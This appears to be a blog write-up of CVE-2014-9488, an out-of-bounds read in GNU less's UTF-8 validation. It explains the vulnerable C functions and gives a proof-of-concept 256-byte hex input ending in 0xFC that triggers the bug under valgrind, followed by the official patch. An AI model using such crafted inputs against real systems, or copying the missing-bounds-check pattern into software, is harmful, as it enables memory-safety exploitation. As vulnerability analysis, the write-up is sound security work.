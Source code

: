 ```yaml
---
title: "CVE-2014-9488"
date: 2020-06-19T12:47:39+08:00
---
```


# CVE-2014-9488 (`less` out-of-bounds read)

The `is_utf8_well_formed` function in GNU `less` before version 475 allows remote attackers to have unspecified impact via malformed UTF-8 characters, which triggers an out-of-bounds read. More details are shown on {{< remote "CVE Details" "https://www.cvedetails.com/cve/CVE-2014-9488/" >}}.

## Bug Detail

The `bin_file` function in `filename.c` is called when using `less` to display a file to determine if the file is binary. It calls `utf_bin_count` function which returns the number of invalid UTF-8 sequences found in a buffer:

```c
public int bin_file(f)
	int f;
{
	int n;
	int bin_count = 0;
	char data[256];
	char* p;
	char* pend;

	if (!seekable(f))
		return (0);
	if (lseek(f, (off_t)0, SEEK_SET) == BAD_LSEEK)
		return (0);
	n = read(f, data, sizeof(data));
	if (n <= 0)
		return (0);
	if (utf_mode)
	{
		bin_count = utf_bin_count(data, n);
	}
    /* ...other code... */ 
}
```

```c
public int utf_bin_count(data, len)
	unsigned char *data;
	int len;
{
	int bin_count = 0;
	while (len > 0)
	{
		if (is_utf8_well_formed(data))
		{
			int clen = utf_len(*data);
			data += clen;
			len -= clen;
		} else
		{
			/* Skip to next lead byte. */
			bin_count++;
			do {
				++data;
				--len;
			} while (len > 0 && !IS_UTF8_LEAD(*data));
		}
	}
	return (bin_count);
}
```

Subsequently, `is_utf8_well_formed` is called to check whether the paramenter passed in points to the lead byte of a well-formed UTF-8 character:

```c
public int is_utf8_well_formed(s)
	unsigned char *s;
{
	int i;
	int len;

	if (IS_UTF8_INVALID(s[0]))
		return (0);

	len = utf_len((char) s[0]);
	if (len == 1)
		return (1);
	if (len == 2)
	{
		if (s[0] < 0xC2)
		    return (0);
	} else
	{
		unsigned char mask;
		mask = (~((1 << (8-len)) - 1)) & 0xFF;
		if (s[0] == mask && (s[1] & mask) == 0x80)
			return (0);
	}

	for (i = 1;  i < len;  i++)
		if (!IS_UTF8_TRAIL(s[i]))
			return (0);
	return (1);
}
```

Problem arises when `s+len` passes the end of the buffer `s`, which would result in out-of-bounds read in the `for` loop at line 26.


## POC

The software version used to demonstrate this CVE is `less 481`, with the patch for this CVE manually reverted back. This is because the posted versions online which are before 475 don't have this feature implemented, and the versions online after 475 all have the CVE patch applied.

To trigger the out-of-bounds read, we need to make the `utf_len` function calculate wrong length, thus making `len` greater than what it should be. The `utf_len` function is as follows:

```c
public int utf_len(ch)
	char ch;
{
	if ((ch & 0x80) == 0)
		return 1;
	if ((ch & 0xE0) == 0xC0)
		return 2;
	if ((ch & 0xF0) == 0xE0)
		return 3;
	if ((ch & 0xF8) == 0xF0)
		return 4;
	if ((ch & 0xFC) == 0xF8)
		return 5;
	if ((ch & 0xFE) == 0xFC)
		return 6;
	/* Invalid UTF-8 encoding. */
	return 1;
}
```

From here, we can see that if we make the last byte of the input file to be `0xFC`, when `s` is pointing to this last byte, the `utf_len` function will return `6` since `0xFC & 0xFE == 0xFC`. Besides, we know from the `bin_file` function that the buffer has 256 bytes, we can construct an input file with 256 bytes and last byte as `0xFC`. By using `hexedit`, we can create such a file:

```vim
47 49 46 38  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00
00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00
00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00
00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00
00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00
00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00
00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00
00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00
00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00
00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00
00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 FC
```

Running the vulnerable version of `less` with `valgrind` and the input above, we can get `valgrind` to report an `Conditional jump or move depends on uninitialised value(s)` error, as the out-of-bounds read occurs in an `if` clause.


## Patch

Here is the offical patch for this CVE:

```diff
--- less-474/charset.c	2015-01-31 00:20:28.000000000 +0100
+++ less-475/charset.c	2015-05-02 22:08:38.000000000 +0200
@@ -506,8 +506,9 @@
  * Does the parameter point to the lead byte of a well-formed UTF-8 character?
  */
 	public int
-is_utf8_well_formed(s)
+is_utf8_well_formed(s, slen)
 	unsigned char *s;
+	int slen;
 {
 	int i;
 	int len;
@@ -516,6 +517,8 @@
 		return (0);
 
 	len = utf_len((char) s[0]);
+	if (len > slen)
+		return (0);
 	if (len == 1)
 		return (1);
 	if (len == 2)
@@ -547,7 +550,7 @@
 	int bin_count = 0;
 	while (len > 0)
 	{
-		if (is_utf8_well_formed(data))
+		if (is_utf8_well_formed(data, len))
 		{
 			int clen = utf_len(*data);
 			data += clen;
```

## References

1. {{< remote "CVE Details entry" "https://www.cvedetails.com/cve/CVE-2014-9488/" >}}
2. {{< remote "Blog post from The Fuzzing Project" "https://blog.fuzzing-project.org/3-less-out-of-bounds-read-access-TFPA-0022014.html" >}}
